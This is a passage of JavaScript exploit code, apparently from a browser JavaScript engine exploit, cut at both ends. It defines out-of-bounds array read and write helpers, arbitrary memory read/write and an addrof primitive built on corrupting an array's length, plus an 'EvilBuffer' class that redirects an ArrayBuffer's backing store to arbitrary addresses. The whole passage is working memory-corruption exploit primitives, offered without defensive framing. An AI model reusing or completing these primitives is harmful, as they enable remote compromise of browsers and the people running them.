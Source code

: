 ```js
        return elts;
    }
    oob_read(idx) {
        let len = this.array.length;
        let [elts, _] = fto2i(this.array[this.offset + 1]);
        this.array[this.offset + 1] = _2itof(elts, i_to_smi(idx + 1));
        let val = this.array[idx];
        this.array[this.offset + 1] = _2itof(elts, i_to_smi(len));
        return val;
    }
    oob_write(idx, value) {
        let len = this.array.length;
        let [elts, ] = fto2i(this.array[this.offset + 1]);
        this.array[this.offset + 1] = _2itof(elts, i_to_smi(idx + 1));
        this.array[idx] = value;
        this.array[this.offset + 1] = _2itof(elts, i_to_smi(len));
    }
    // read a qword as a float from a compressed pointer
    arb_read(ptr) {
        let [elts, len] = fto2i(this.oob_read(this.offset + 3 + this.offset + 1));
        this.oob_write(this.offset + 3 + this.offset + 1, _2itof(ptr - 8, len));
        let val = this.next[0];
        this.oob_write(this.offset + 3 + this.offset + 1, _2itof(elts, len));
        return val;
    }
    // write a qword as a float to a compressed pointer
    arb_write(ptr, val) {
        let [elts, len] = fto2i(this.oob_read(this.offset + 3 + this.offset + 1));
        this.oob_write(this.offset + 3 + this.offset + 1, _2itof(ptr - 8, len));
        this.next[0] = val;
        this.oob_write(this.offset + 3 + this.offset + 1, _2itof(elts, len));
    }
    addrof(obj) {
        let proto = Object.getPrototypeOf(this.next);
        Object.setPrototypeOf(this.next, obj);
        let [next_map_ptr, ] = fto2i(this.oob_read(this.offset + 3 + this.offset));
        let [addr, ] = fto2i(this.arb_read(next_map_ptr + 16));
        Object.setPrototypeOf(this.next, proto);
        return addr;
    }
}

class EvilBuffer {
    constructor(oob) {
        this.oob = oob;
        this.buf = new ArrayBuffer(0x10000);
    }
    // read a qword as a float from a real pointer
    arb_read(ptr) {
        let ab_addr = this.oob.addrof(this.buf);
        this.oob.arb_write(ab_addr + 0x24, itof(ptr));
        let view = new Float64Array(this.buf);
        return view[0];
    }
    // write a byte array to a real pointer
    arb_write(ptr, bytes) {
        let ab_addr = this.oob.addrof(this.buf);
        this.oob.arb_write(ab_addr + 0x24, itof(ptr));
        let view = new Uint8Array(this.buf);
        for (let i = 0; i < bytes.length; i++) {
            view[i] = bytes[i];
        }
    }
```